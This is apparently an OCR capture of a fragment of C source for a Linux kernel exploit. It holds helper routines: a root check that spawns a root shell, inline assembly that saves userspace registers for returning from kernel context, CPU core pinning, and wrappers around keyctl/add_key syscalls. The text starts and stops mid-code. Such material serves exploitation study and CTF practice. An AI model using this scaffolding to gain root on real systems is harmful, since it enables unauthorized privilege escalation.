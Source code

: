 ```c
}

/* root checker and shell poper */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile("mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

/**
 * Syscall keyctl() operator
 */

#define KEY_SPEC_PROCESS_KEYRING -2 /* - key ID for process-specific keyring */
#define KEYCTL_UPDATE           2   /* update a key */
#define KEYCTL_REVOKE           3   /* revoke a key */
#define KEYCTL_UNLINK           9   /* unlink a key from a keyring */
#define KEYCTL_READ             11  /* read a key or keyring's contents */

int key_alloc(char *description, void *payload, size_t plen)
{
    return syscall(__NR_add_key, "user", description, payload, plen, 
                   KEY_SPEC_PROCESS_KEYRING);
}

int key_update(int keyid, void *payload, size_t plen)
```
